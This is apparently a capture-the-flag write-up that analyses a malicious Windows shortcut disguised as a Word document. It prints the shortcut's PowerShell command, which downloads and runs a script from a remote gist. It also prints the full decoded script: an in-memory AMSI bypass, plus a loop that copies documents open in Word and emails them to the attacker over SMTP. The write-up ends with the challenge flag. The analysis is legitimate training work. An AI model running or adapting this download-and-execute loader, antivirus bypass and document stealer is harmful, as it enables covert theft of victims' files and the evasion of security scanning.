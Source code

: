 # LNK

> **Challenge Description:** Recently, many of our company's sensitive documents were stolen by someone. Can you look into this malware? It might be the initial access of the malware of the attacker. We believe the attacker have hidden passwords for their malware.
>
> **Flag Format:** `ihack{MD5}`

### Solution
The `LNK` file appears to be a `.DOCX` that masquerades as a shortcut file. When performing basic file checks to carve for metadata, the following payload was discovered:

```
┌──(kali💀JesusCries)-[~/Desktop/iHack/malware]
└─$ exiftool Latest\ Kenyataan\ Parlimen.docx 
ExifTool Version Number         : 12.40
File Name                       : Latest Kenyataan Parlimen.docx
Directory                       : .
File Size                       : 2.5 KiB
File Modification Date/Time     : 2022:12:08 08:00:32-05:00
File Access Date/Time           : 2022:12:10 03:12:33-05:00
File Inode Change Date/Time     : 2022:12:10 06:45:16-05:00
File Permissions                : -rw-r--r--
File Type                       : LNK
File Type Extension             : lnk
MIME Type                       : application/octet-stream
Flags                           : IDList, LinkInfo, RelativePath, WorkingDir, CommandArgs, IconFile, Unicode
File Attributes                 : (none)
Create Date                     : 1601:01:16 04:55:36-04:56
Access Date                     : 1601:01:16 04:55:36-04:56
Modify Date                     : 1601:01:16 04:55:36-04:56
Target File Size                : 0
Icon Index                      : (none)
Run Window                      : Show Minimized No Activate
Hot Key                         : (none)
Target File DOS Name            : cmd.exe
Drive Type                      : Fixed Disk
Volume Label                    : 
Local Base Path                 : C:\Windows\System32\cmd.exe
Relative Path                   : ..\..\..\..\..\Windows\System32\cmd.exe
Working Directory               : C:\Windows\System32
Command Line Arguments          : /c powershell "IEX(New-Object Net.WebClient).downloadString('https://gist.githubusercontent.com/0xAFFMR/8f7f4579de75cf111a6c0f53ceff4f1f/raw/66986a5c79ca1dbe3629311e6400751c2fba89ba/ihack.ps1')"
Icon File Name                  : C:\Program Files\Microsoft Office\root\Office16\WINWORD.EXE
```

Navigating to the URL `https[://]gist[.]githubusercontent[.]com/0xAFFMR/8f7f4579de75cf111a6c0f53ceff4f1f/raw/66986a5c79ca1dbe3629311e6400751c2fba89ba/ihack[.]ps1`, it appears to be base-64 encoded.

![Screenshot](./Screenshot.png)

Decode the base64 repeatedly with UTF-16LE until the following payload appears:

```
Add-Type -AssemblyName System.Security

##### GLOBAL #####
$Content = (New-Object Net.Webclient).DownloadString('https://gist.githubusercontent.com/0xAFFMR/da298d823c184ae6c12c940562049978/raw/38deebff622eed7616d27009c690c4d86668f3a1/sec')
[string[]]$Bytes = $Content.Split("`n")
$ContentX = [Security.Cryptography.ProtectedData]::Protect($Bytes, $Null, [Security.Cryptography.DataProtectionScope]::LocalMachine)
$docsSent =  New-Object Collections.Generic.List[String]
$appData = [Environment]::GetFolderPath('ApplicationData') + "\Microsoft\Windows\Recent"
$temp = [Environment]::GetFolderPath('ApplicationData')
$compName = $env:computername | Select-Object
##################

# AMSI ByPass
function AmsiBypass {
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("am" + "si." + "dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Am" + "si" + "Scan" + "Buf" + "fer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
}


# Send Email function
function Send-Email {
    $From = "hackerman@ihack.com"
    $To = "hackerman@ihack.com"
    $Attachment = $args[0]
    $Subject = "Email Subject"
    $Body = "UserDomain: " + $env:UserDomain + " ComputerName: " + $env:ComputerName + " UserName: " + $env:UserName + " Attachment: " + [io.path]::GetFileName($args[0])
    $SMTPServer = "smtp.gmail.com"
    $SMTPPort = "587"
    $User = "UserName"
    $SecRet = ConvertTo-SecureString -String $ContentX -AsPlainText -Force
    $Credential = New-Object -TypeName "System.Management.Automation.PSCredential" -ArgumentList $User, $SecRet
    Send-MailMessage -From $From -to $To -Subject $Subject `
    -Body $Body -SmtpServer $SMTPServer -port $SMTPPort -UseSsl `
    -Credential $Credential -Attachments $Attachment
}


# Check if file locked
function Test-FileLock {
  param (
    [parameter(Mandatory=$true)][string]$Path
  )

  $oFile = New-Object System.IO.FileInfo $Path

  if ((Test-Path -Path $Path) -eq $false) {
    return $false
  }

  try {
    $oStream = $oFile.Open([System.IO.FileMode]::Open, [System.IO.FileAccess]::ReadWrite, [System.IO.FileShare]::None)

    if ($oStream) {
      $oStream.Close()
    }
    return $false
  } catch {
    # file is locked by a process.
    return $true
  }
}


# Check lnk file origin
function Get-ShortcutsTarget{
    $Shortcuts = Get-ChildItem -Recurse $appData -Include *.doc*.lnk
    $Shell = New-Object -ComObject WScript.Shell
    foreach ($Shortcut in $Shortcuts)
    {
        $Properties = @{
        ShortcutName = $Shortcut.Name;
        ShortcutFull = $Shortcut.FullName;
        ShortcutPath = $shortcut.DirectoryName
        Target = $Shell.CreateShortcut($Shortcut).targetpath
        }
        New-Object PSObject -Property $Properties
    }

[Runtime.InteropServices.Marshal]::ReleaseComObject($Shell) | Out-Null
}


AmsiBypass
# Function as Main
Do {
    
    # Check If WinWord process is open
    $isOpen = get-process WINWORD -ErrorAction SilentlyContinue | select -expand id

    # while WinWord is open 
    while($isOpen) 
    {
        $Output = Get-ShortcutsTarget
        foreach ($Target in $Output)
        {
            $isLocked = Test-FileLock $Target.Target
            if ($isLocked -AND -NOT $docsSent.Contains($Target.Target))
            {
                $destination = $temp + "\" + [io.path]::GetFileName($Target.Target)
                copy-Item -Recurse $Target.Target -passthru -Destination $destination
                Send-Email $destination
                $docsSent.Add($Target.Target)
                Remove-Item -Path $destination -Force
            }
        }

        sleep 5
        $isOpenTemp = get-process WINWORD -ErrorAction SilentlyContinue | select -expand id
        if ($isOpenTemp -ne $isOpen)
        {
            $docsSent.Clear()
            $isOpen = $isOpenTemp
        }

    }

    $docsSent.Clear()
    sleep 5
} while ($true)
```

The flag is located in the URL `https[://]gist[.]githubusercontent[.]com/0xAFFMR/da298d823c184ae6c12c940562049978/raw/38deebff622eed7616d27009c690c4d86668f3a1/sec`
Convert the decimal values to ASCII characters to obtain the flag.

**Flag:** `ihack{287991bc0a634b67a92c2c5881d2abff}`
